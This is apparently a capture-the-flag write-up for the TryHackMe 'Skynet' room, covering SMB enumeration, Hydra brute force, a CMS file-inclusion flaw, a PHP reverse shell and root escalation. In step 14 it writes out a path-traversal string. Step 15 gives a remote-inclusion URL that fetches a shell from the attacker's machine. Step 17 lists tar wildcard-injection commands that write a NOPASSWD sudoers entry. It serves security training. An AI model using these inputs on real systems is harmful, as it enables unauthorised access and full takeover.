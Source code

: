# CTF_skynet
this is Poc writeup CTF skynet from TryHackMe.com, link https://tryhackme.com/room/skynet

## tools
1. nmap (looking port that open)
2. dirb (enumerate list directory)
3. smbmap (mapping smb server)
4. smbclient (log in smb server)
5. burp (community edition)
6. nc or Ncat (listener reverse shell)
7. python3 (for http.server)
8. nano (text editor)
9. hydra (brute force by wordlist from login form)
10. gobuster (enumerate list director)
11. searchsploit (search exploit that match with targeted system)

## Let's Rock n Roll
1. scanning port that opened using nmap :

![nmap](/submit/1.png "nmap")

2. Enumerate listing directory using dirb :

![dirb](/submit/2.png "dirb")

3. while waiting dirb processing, let's try mapping the smbserver using smb map, here's the result :

![smbmap](/submit/4.png "smbmap")

4. the anonymous client is still on, now let's try login using anonymous user using smbclient:

![smbclient](/submit/5.png "smbclient")

5. after dirb finished, we got interesting directory. there is /squirrelmail. open browser that access hhtp://**your machine**/squirrelmail :
  
![webview](/submit/6.png "webview")
  
6. back to the smbclient, then check the directory using ls command. after that we've got attention.txt and file log1.txt,log2.txt,log3.txt on directory logs. download all the files using get command :
  
![smbclient](/submit/7.png "smbclient")

7. check all of files using cat. information that we've got, there is maintenance service so all credential will be reseted. from attention.txt there is username information taht we can use for brute force. information that we got from log2.txt is all password for first login before update password :
  
![smbclient](/submit/8.png "smbclient")
  
8. use burp to intercept and get url GET information that we can combined using Hydra for brute force. fill the form username and password than push button login. than we got the GET url :
  
![burp](/submit/10.png "burp")
  
![burp](/submit/12.png "burp")

![burp](/submit/13.png "burp")
  
9. information that we got is, GET method, url http://**your machine**/squirrelmail/src/redirect.php, and the respon output that we can use as parameter that login was failed. then use hydra with username milesdyson and password wordlist (**log2.txt**), like the command bellow :

![hydra](/submit/14.png "hydra")
  
10. after we got information username and password, login into the squirrelmail and access the email from synet@skynet with subject Samba Password Reset. use the password credential for login as milesdyson with smbclient :
 
![webview](/submit/15.png "webview")
 
![webview](/submit/16.png "webview")
  
![sambaclient](/submit/17.png "sambaclient")
  
11. list the item on the directory. there is **notes** directory, access it. than download the important.txt using get command :

![sambaclient](/submit/19.png "sambaclient")
   
12. now, we got information that machine use CMS. the CMS was in directory at the image bellow. just put the directory affter your machine target ip like this http://**machine target**/**the directory** using browser :

![cat](/submit/21.png "cat")

![webview](/submit/22.png "webview")

13. use gobuster for brute the directory. in this case i'm using dirb wordlist and got the CMS pannel on http://**your target**/**the directory**/Administrator/ :

![gobuster](/submit/23.png "gobuster")

![webview](/submit/24.png "webview")

14. then use searchsploit to get the information. there is Local/Remote vuln on file alertConfigField.php. in this case, just add ../../../../../../etc/passwd on url browser and the /etc/passwd information show off :

![searchsploit](/submit/25.png "searchsploit")

![cat](/submit/26.png "cat")

![webview](/submit/27.png "webview")

15. creat reverse shell in PHP than run the simple http server using python3 for upload the PHP reverse shell script to the target machine afterthat use ncat for listener. then open the browser and type http://**your target**/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://**local machine**/reverse.php, now we got the shell :

![nano](/submit/28.png "nano")

![ncat](/submit/29.png "ncat")

![reverseShell](/submit/30.png "reverseShell")

![reverseShell](/submit/31.png "reverseShell")

16. go into desktop directory milesdyson and there is user.txt, use cat for show the output :

![reverseShell](/submit/32.png "reverseShell")

17. check crontab file to get information, which service runing by **root**. there's backup.sh that will be run on /var/www/html/ approximately every one minutes. copy backup.sh into /var/www/html then run the several comment bellow :
- **echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh**
- **touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"**
- **touch "/var/www/html/--checkpoint=1"**

![reverseShell](/submit/36.png "reverseShell")

![previlegeescall](/submit/37.png "previlegeescall")

![previlegeescall](/submit/38.png "previlegeescall")

18. BOOM we got the root access. go into **/root** and cat the root.txt

![previlegeescall](/submit/39.png "previlegeescall")

73 good luck
